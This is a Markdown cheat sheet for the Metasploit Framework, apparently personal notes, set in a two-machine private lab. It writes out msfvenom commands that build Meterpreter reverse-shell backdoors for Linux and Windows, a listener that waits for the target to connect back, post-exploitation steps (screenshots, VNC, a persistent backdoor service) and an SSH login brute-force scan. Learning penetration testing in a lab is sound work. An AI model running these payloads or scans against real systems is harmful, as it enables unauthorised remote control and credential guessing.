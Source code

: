# [metasploit framework](https://www.metasploit.com/)

## msfdb

```bash
kali:~ # msfdb init         # initialize db
kali:~ # msfdb reinit       # reinitialize db
kali:~ # msfdb delete       # delete db
kali:~ # msfdb start        # start db service
kali:~ # msfdb stop         # stop db service
kali:~ # msfdb status       # check db service status
kali:~ # msfdb run          # start db service

# deafult db is postgre
kali:~ # cat /usr/share/metasploit-framework/config/database.yml
```


---

## msfvenom

```bash
kali:~ # msfvenom -h
kali:~ # msfvenom -l payloads|format|archs
kali:~ # msfvenom -p <payload> LHOST=<kali ip> LPORT=<kali port> -f <format> -o <file>
# LHOST: local host, LPORT: local port
```


---

## msconsole

### basic

```bash
kali:~ # msfconsole

msf6 > help
msf6 > help <cmd>

msf6 > set <VAR> <var>      # set variable
msf6 > get <VAR> <var>      # get variable
msf6 > setg <VAR> <var>     # set global variable
msf6 > getg <VAR> <var>     # get global variable
```


---

### core command


---

### module command


---

### job command


---

### resource script command

```bash
kali:~ # cat >> <script> < EOF
use exploit/multi/handler
set PAYLOAD <payload>
set LHOST <kali ip>
set LPORT <kali port>
show options
EOF

# run script
kali:~ # msfconsole -q -r <script>

# command script
msf6 > resource <script>    # run command with file
msf6 > makerc <script>      # save command with file
```


---

### database backend command


---

## credentials backend command


---

## developer


---

## example

###  network topology

```
kali           target machine
192.168.0.10   192.168.0.20
   |              |
   |              |
   +--------------+...
```


### reverse_tcp / reverse_http / reverse_https / bind_tcp

```bash
# gen backdoor
kali:~ # msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.10 LPORT=4444 -f elf -o backdoor    # for linux
kali:~ # msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.0.10 LPORT=4444 -f exe -o backdoor.exe  # for windows

kali:~ # msfconsole

msf6 > use exploit/multi/handler
msf6 > show options
msf6 > set PAYLOAD linux/x86/meterpreter/reverse_tcp    # for linux
msf6 > set PAYLOAD windows/meterpreter_reverse_tcp      # for windows
msf6 > set LHOST 192.168.0.10                           # local host / controller ip
msf6 > set LPORT 4444                                   # local port / controller port
msf6 > exploit                                          # wait target run backdoor

meterpreter > pwd
meterpreter > ls
meterpreter > screenshot
meterpreter > run vnc
meterpreter > run metsvc [-d | -h ]                      # backdoor serivce
meterpreter > quit

msf6 > quit

msf6 > use exploit/multi/handler
msf6 > set payload windows/metsvc_bind_tcp
msf6 > set lport 31337
msf6 > set rhost 192.168.0.20
msf6 > exploit
```


---

### ssh

```bash
msf6 > search ssh

msf6 > use auxiliary/scanner/ssh/ssh_version
msf6 > show options
msf6 > set THREADS 3
msf6 > set RHOSTS 192.168.0.20
msf6 > run

msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 > show options
msf6 > set THREADS 3
msf6 > set RHOSTS 192.168.0.20
msf6 > set STOP_ON_SUCCESS true
msf6 > set VERBOSE true
msf6 > set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
msf6 > set USER_AS_PASS true
msf6 > run
```
